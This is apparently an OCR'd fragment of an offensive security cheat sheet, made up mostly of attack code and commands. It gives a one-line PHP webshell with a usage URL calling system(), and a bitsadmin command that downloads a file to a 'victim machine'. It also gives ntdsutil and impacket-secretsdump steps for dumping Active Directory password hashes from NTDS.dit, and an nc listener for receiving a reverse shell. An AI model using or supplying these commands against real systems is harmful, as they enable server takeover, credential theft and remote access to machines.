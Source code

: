 ```

```
# PHP Tiny Webshell
```
<?= ($_=@$_GET[0]).$_(@$_GET[1]);
```
http://127.0.0.1/shell.php?0=system&1=ls
# Donwload file to the victim machine
```
bitsadmin  /transfer mydownloadjob  /download  /priority normal  ^http://example.com/filename.zip  C:\Users\username\Downloads\filename.zip
```
# Internal Monolog
Retrieving NTLM Hashes without Touching LSASS

https://github.com/eladshamir/Internal-Monologue

# NTDS - Domain Controller
Dumping and enumerating NTDS.dit - a file that contains information about Active Directory users (hashes!).

```
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```
Dump hashes 
```
/usr/bin/impacket-secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit local
```
# Interactive shell with nc
```
rlwrap nc -nlvp PORT
```
